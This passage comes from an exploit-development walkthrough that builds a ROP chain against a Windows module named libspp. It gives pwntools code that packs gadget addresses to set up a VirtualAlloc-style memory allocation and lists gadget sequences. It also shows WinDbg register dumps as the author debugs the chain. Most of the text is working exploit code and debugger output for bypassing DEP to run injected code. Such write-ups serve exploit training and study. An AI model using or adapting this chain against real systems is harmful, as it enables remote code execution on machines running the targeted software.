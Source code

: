 This breaks eax, which is fine as we already did that before.

This should be it.
```
#EDX = flAllocationType #0x1000
body += pwn.p32(addr_popecxret)
body += pwn.p32(0x1020f040)
body += pwn.p32(addr_popeaxret)
body += pwn.p32(0x0FFF4040)
body += pwn.p32(addr_movedxeax_saredx)
body += pwn.p32(addr_saredx)
body += pwn.p32(addr_incedx)
```

This didnt work, forgot to loop ecx 4 times, and ebp needs to have a `pop ebp` at the start. Also going to add a `pushad; ret;` and some nops to the end of the payload, as its getting super close. 

EBX destroied ECX:
```
0:007> 
eax=909090e0 ebx=77411595 ecx=00000040 edx=00001000 esi=7728b770 edi=10040826
eip=101260b0 esp=02cdfb2c ebp=ffffffff iopl=0         nv up ei ng nz na po nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000282
libspp!SPP_ValueTrend::FormatValueString+0x870:
101260b0 8b4b08          mov     ecx,dword ptr [ebx+8] ds:002b:7741159d=7077260d
0:007> 
eax=909090e0 ebx=77411595 ecx=7077260d edx=00001000 esi=7728b770 edi=10040826
eip=101260b3 esp=02cdfb2c ebp=ffffffff iopl=0         nv up ei ng nz na po nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000282
libspp!SPP_ValueTrend::FormatValueString+0x873:
101260b3 51              push    ecx
0:007>********
```

This is weird as the gadget shouldnt do that. The gadget chain was wrong so going to rewrite it:
```
0x100430c7: pop ebx; ret;
0xFFFFFFFF
0x101260ab: inc ebx; add al, 0x50; call edi;
0x101260ab: inc ebx; add al, 0x50; call edi;
```

This will break the `eax` register as the `al` register is the lower 8-bits. Updating the rop chain and trying again.

```
0:007> 
eax=00000050 ebx=00000000 ecx=00000040 edx=00001000 esi=7728b770 edi=10040826
eip=101260ae esp=02c9fb24 ebp=90909090 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000206
libspp!SPP_ValueTrend::FormatValueString+0x86e:
101260ae ffd7            call    edi {libspp!SCA_ClsFinder::SearchFile+0x416 (10040826)}
0:007> 
eax=00000050 ebx=00000000 ecx=00000040 edx=00001000 esi=7728b770 edi=10040826
eip=10040826 esp=02c9fb20 ebp=90909090 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000206
libspp!SCA_ClsFinder::SearchFile+0x416:
10040826 c3              ret
0:007> 
eax=00000050 ebx=00000000 ecx=00000040 edx=00001000 esi=7728b770 edi=10040826
eip=101260b0 esp=02c9fb24 ebp=90909090 iopl=0         nv up ei pl nz na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00000206
libspp!SPP_ValueTrend::FormatValueString+0x870:
101260b0 8b4b08          mov     ecx,dword ptr [ebx+8] ds:002b:00000008=????????
```
